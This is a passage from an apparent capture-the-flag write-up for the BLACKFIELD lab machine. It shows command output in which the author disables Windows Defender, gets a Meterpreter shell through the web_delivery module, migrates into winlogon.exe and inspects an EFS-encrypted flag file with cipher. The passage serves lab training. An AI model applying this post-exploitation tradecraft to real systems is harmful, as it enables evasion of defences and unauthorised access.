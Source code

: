 ```
fontdrvhost.exe                836 Console                    1      5,388 K
fontdrvhost.exe                844 Services                   0      4,392 K
svchost.exe                    852 Services                   0     22,084 K
svchost.exe                    940 Services                   0     11,824 K
svchost.exe                    988 Services                   0      9,636 K
dwm.exe                        328 Console                    1     58,908 K
svchost.exe                    456 Services                   0     12,296 K
...[snip]...

```

Session 0 is Services, and session 1 is Console. When I connect with WinRM, it creates a `wsmprovhost.exe` process, which runs in session 0:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> tasklist | findstr wsmprovhost
wsmprovhost.exe               5324 Services                   0     85,644 K
wsmprovhost.exe               5696 Services                   0    129,840 K
wsmprovhost.exe               1776 Services                   0     70,056 K

```

I disabled defender, and got a Meterpreter shell (I used `exploit/multi/script/web_delivery`, but there are a lot of ways) and migrated to a process in session 1, `winlogon.exe`:

```

meterpreter > getuid
Server username: BLACKFIELD\Administrator
meterpreter > migrate 528
[*] Migrating from 2268 to 528...
[*] Migration completed successfully.

```

Now I dropped to a shell and ran `cipher` again:

```

C:\Users\Administrator\Desktop>cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
    Certificate thumbprint: 327F 9775 6FF7 110B 0564 E159 7DBC AF6E 7D2A AFD8 

  Recovery Certificates:
    BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
    Certificate thumbprint: 78CD 0031 7A9C 948A 9A66 0D6D BC32 0706 D193 476A 

  Key information cannot be retrieved.

The specified file could not be decrypted.

C:\Users\Administrator\Desktop>type root.txt
Access is denied.

```
